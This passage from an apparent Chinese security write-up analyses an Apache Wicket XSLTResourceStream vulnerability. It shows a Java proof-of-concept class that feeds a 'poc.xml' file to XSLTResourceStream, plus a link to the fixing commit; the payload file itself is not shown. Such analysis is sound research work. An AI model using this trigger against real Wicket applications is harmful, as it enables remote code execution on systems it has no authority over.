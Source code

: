 执行

```
package com.DawnT0wn.Wicket;

import org.apache.wicket.util.resource.FileResourceStream;
import org.apache.wicket.util.resource.IResourceStream;
import org.apache.wicket.util.resource.XSLTResourceStream;

import java.io.File;

public class XSLTTest {
    public static void main(String[] args) {
        IResourceStream xstlStream = new FileResourceStream(new File("poc.xml"));
        IResourceStream xmlStream = new FileResourceStream(new File("poc.xml"));
        XSLTResourceStream stream = new XSLTResourceStream(xstlStream, xmlStream);
    }
}
```

## 漏洞分析

https://github.com/apache/wicket/commit/bc7dcc3f5bfbb3a41ab407d53ba5e0af3d3453a0

根据commit定位到了XSLTResourceStream类的构造方法

![QQ_1730882980972](images/9.png)
